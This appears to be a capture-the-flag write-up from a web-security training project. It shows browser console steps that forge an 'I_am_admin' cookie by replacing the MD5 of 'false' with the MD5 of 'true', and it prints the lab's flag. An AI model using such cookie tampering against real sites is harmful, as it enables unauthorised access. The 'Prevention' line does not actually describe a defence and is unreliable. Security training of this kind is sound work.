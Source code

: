 # SESSION HIJACKING

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Discovery
On the page http://{IP_ADDRESS}/

```diff
# inspector console
document.cookie
> 68934a3e9455fa72420237eb05902327
```

```diff
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
```

```diff
# inspector console
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## Use
> perform any actions that the original user is authorized to do during the active session

## Prevention
> Session cookies are a way of overcoming these constraints and allowing web applications to identify individual computer systems and store the current session state

## Documentation
- [owasp - Session hijacking attack](https://www.owasp.org/index.php/Session_hijacking_attack)
- [netsparker - Session hijacking](https://www.netsparker.com/blog/web-security/session-hijacking/)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly#readme)